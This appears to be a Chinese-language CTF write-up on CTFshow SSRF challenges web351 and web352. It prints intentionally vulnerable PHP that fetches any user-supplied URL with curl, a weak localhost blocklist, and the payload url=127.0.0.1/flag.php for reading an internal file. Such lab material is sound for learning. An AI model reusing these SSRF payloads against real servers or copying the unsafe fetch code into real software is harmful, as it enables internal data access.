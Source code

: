 # CTFSHOW-SSRF

[TOC]

---

## 题目

### web351

目录扫描发现存在flag.php文件，但是我们访问不了，

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?> 
```

![image-20250115155957402](https://gitee.com/bx33661/image/raw/master/path/image-20250115155957402.png)

这就是利用ssrf，直接传参

```http
url=127.0.0.1/flag.php
```



### web352

检测http，https，并且过滤127和localhost

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

$url = $_POST['url'];
$x = parse_url($url);

if ($x['scheme'] === 'http' || $x['scheme'] === 'https') {
    if (!preg_match('/localhost|127\.0\.0/', $url)) {
        $ch = curl_init($url);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $result = curl_exec($ch);
        curl_close($ch);
        echo $result;
    } else {
        die('hacker');
    }
} else {
    die('hacker');
}
?>
```
